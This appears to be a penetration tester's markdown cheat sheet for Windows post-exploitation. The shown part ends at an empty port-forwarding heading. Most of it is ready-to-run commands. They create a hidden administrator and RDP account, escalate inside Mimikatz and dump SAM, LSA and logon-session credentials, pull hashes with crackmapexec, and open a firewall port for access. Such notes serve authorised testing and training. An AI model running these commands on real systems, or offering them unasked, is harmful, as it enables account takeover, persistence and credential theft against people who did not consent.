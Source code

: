 Suppose Now we are system level user. We need to make our stand more strong
Following commands will create a new user and make them part of admin and rdp group.Now we can freely rdp as admin privilege


net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add




## HashDumps

### Mimikatz


Note : If we are administrator or similiar privileges but we are getting error on running mimikatz , list down the process and migrate to a process  running as administrator . Same goes for if we are system but our process might be in administrator context

1. First open the mimikatz binary

2. Now type in following to get us system privileges on mimikatz shell

privilege::debug
token::elevate


If we want we could log Mimikatz output with the log command. For example: log c:\windows\temp\mimikatz.log, would save the Mimikatz output into the Windows Temp directory. This could also be saved directly into our Kali machine, but be aware that the remote destination must be writeable to the local user running the RDP session.

3. We can now dump the hashes using the follwoing command

> lsadump::sam  (FOR NORMAL windows) 


 OR 

> sekurlsa::logonpasswords  (Dump hashes from current active sessions)

 OR 
 
> lsadump::lsa /patch  (for Windows AD server)

### crackmapexec

> crackmapexec IPADDRESS -u 'Administrator' -p 'PASS' --local-auth --sam



## OPening a port on windows

> netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT



### Port Forwarding

